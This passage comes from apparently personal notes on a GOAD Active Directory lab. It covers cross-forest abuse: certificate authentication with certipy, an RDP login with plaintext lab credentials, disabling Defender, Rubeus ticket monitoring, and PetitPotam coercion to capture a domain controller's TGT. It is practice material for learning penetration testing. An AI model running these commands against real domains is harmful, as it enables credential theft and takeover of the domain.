 >[!NOTE] 
>Did not work, investigate why


```
certipy auth -pfx jorah.mormont.pfx -username jorah.mormont -domain essos.local -dc-ip 192.168.56.12
```


- Essos to sevenkingdoms : group accros_thenarrowsea

In the same way we can exploit the essos to sevenkingdoms foreign group

> Please not that the active directory groups are not all the same. There is 3 types of security groups: [https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups)
> 
> - Universal
> - Global
> - Domain Local
> 
> If a group contains members of a trusted domain, it have to be of type Domain Local.
> 
> Groups scope informations are well explained by harmj0y [here](https://posts.specterops.io/a-pentesters-guide-to-group-scoping-c7bbbd9c7560)

## Use unconstrained delegation

- From kingslanding we can rule the essos domain with unconstrained delegation
    
- We connect to kingslanding with rdp as an administrator
```
xfreerdp3 /d:sevenkingdoms.local /u:cersei.lannister /p:'il0vejaime' /v:192.168.56.10 /size:80%  /cert:ignore /drive:test,/home/kali/Desktop/htb/GOAD/tools /clipboard
```    
- For more simplicity we will disable defender
- Now we launch [rubeus.exe](https://github.com/GhostPack/Rubeus) to wait for a TGT of the essos forest.
```
.\Rubeus.exe monitor /filteruser:MEEREEN$ /interval:1
```

- And we run petitpotam on our linux console to force a coerce of meereen to kingslanding.
```
petitpotam.py -u arya.stark -p Needle -d north.sevenkingdoms.local kingslanding.sevenkingdoms.local meereen.essos.local
```

- And we get the TGT of meereen !

- Now we can copy it to linux (delete space and \n)
- Decode the base64 and save it to a kirbi file
```
base64 -d rubeus.b64 > meereen.kirbi
```
